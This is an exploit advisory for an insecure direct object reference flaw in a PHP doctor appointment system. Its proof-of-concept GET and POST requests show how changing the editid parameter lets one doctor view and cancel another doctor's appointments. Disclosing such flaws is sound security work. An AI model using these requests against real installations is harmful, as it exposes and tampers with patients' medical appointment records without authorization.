 # Exploit Title: Doctor Appointment Management System - V 1.0.0 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/doctor-appointment-management-system-using-php-and-mysql/
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Phpgurukul
## Version: v1.0.0
## Exploit Description:
## Doctor Appointment Management System - V 1.0.0 suffers from IDOR - Broken Access Control Vulnerability allowing attacker doctor to look up and update the appointment that is managed by other doctor(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
GET /dams/doctor/view-appointment-detail.php?editid=8(CHANGE HERE)&&aptid=154553066 HTTP/1.1
```

```
POST /dams/doctor/view-appointment-detail.php?editid=8(CHANGE HERE)&&aptid=154553066 HTTP/1.1
...

remark=hello&status=Cancelled&submit=
```